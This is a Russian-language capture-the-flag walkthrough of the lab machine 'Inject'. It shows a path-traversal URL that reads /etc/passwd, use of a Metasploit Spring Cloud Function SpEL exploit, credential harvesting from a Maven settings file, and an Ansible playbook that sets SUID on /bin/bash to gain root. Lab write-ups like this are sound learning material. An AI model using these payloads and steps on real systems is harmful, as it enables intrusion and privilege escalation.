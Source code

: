 # Inject
:white_check_mark:  [**Spring_cloud_function_spel_injection**](#Spring_cloud_function_spel_injection)

:white_check_mark:  [**Ansible yml file (privesc)**](#Ansible_yml_file)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV inject.htb
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница сайта:

![](1.png)

![](../assets/Inject/1.png)

На данной странице мы можем найти вкладку для загрузки файлов. Перейдем по ней.

![](2.png)

![](../assets/Inject/2.png)

Попробуем прокинуть файл php-revershe-shell.php. Но мы получим ошибку и сообщение, что загружаются только картинки. 

![](3.png)

![](../assets/Inject/3.png)

Переименуем файл в php-revershe-shell.php.jpg и снова загрузим файл. Файл успешно загрузился

![](4.png)

![](../assets/Inject/4.png)

Но у нас не получится открыть данный файл.

![](5.png)

![](../assets/Inject/5.png)

Вместо этого мы можем обнаружить LFI. Мы сможем прочитать /etc/passwd:

```
http://inject.htb:8080/show_image?img=../../../../../../etc/passwd
```

![](6.png)

![](../assets/Inject/6.png)

Также мы можем обнаружить, что мы можем не только читать файлы, но и просматривать директории.

![](7.png)

![](../assets/Inject/7.png)

<a name="Spring_cloud_function_spel_injection"></a>

## Spring_cloud_function_spel_injection

Просмотрев файлы, мы можем обнаружить, что сайт использует Spring 2.6.5.

![](8.png)

![](../assets/Inject/8.png)

Воспользуемся metasploit. В поиске прописываем spring и выбираем эксплоит **spring_cloud_function_spel_injection**.

![](9.png)

![](../assets/Inject/9.png)

Выставляем нужные параметры и запускаем эксплоит.

![](10.png)

![](../assets/Inject/10.png)

В директории **/home/frank/.m2** мы можем обнаружить файл setting.xml.

![](11.png)

![](../assets/Inject/11.png)

В данном файле мы можем найти данные пользователя

![](12.png)

![](../assets/Inject/12.png)

Логинимся под пользователя phil.

![](13.png)

![](../assets/Inject/13.png)

<a name="Ansible_yml_file"></a>

## Ansible yml file(privesc)

Закинем на машину linpeas и запустим скрипт. В выводе скрипта мы можем обнаружить ansible файл playbook_1.yml.

![](14.png)

![](../assets/Inject/14.png)

На [сайте](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/) и [сайте](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/) мы можем найти способ эксплуатации ansible.

Код эксплоита:

```
- hosts: localhost
        tasks:
          - name: Evil
            ansible.builtin.shell: |
              chmod u+s /bin/bash
            become: true
```

![](15.png)

![](../assets/Inject/15.png)

Закидываем файл в директорию:

```
mv playbook2.yml /opt/automation/tasks/
```

Через некоторое время прописываем команду **bash -p** и получаем root.

![](16.png)

![](../assets/Inject/16.png)